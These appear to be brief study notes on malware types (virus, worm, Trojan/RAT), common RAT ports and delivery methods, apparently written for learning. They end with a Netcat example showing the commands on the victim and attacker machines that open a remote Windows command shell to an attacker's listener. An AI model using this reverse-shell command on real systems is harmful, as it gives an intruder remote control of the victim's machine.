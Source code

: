 # Malware Threats

## Virus
* needs host

## Worm
* self propagating, replicating
* eating up resources

## Trojan & RAT
* ports - 407, 21544, 31337
* hidden activity

# Delivery
* malvertising
* phishing
* USB
* insider threat

`Example`: forkbomb - call itself recursively => exploit resource usage 

`Example:` Netcat - gets the cmd of victim machine
* Victim machine: ` $ ncat IP 8080 -e "cmd.exe"` 
* Attacker machine: ` $ ncat -vlp 8080` 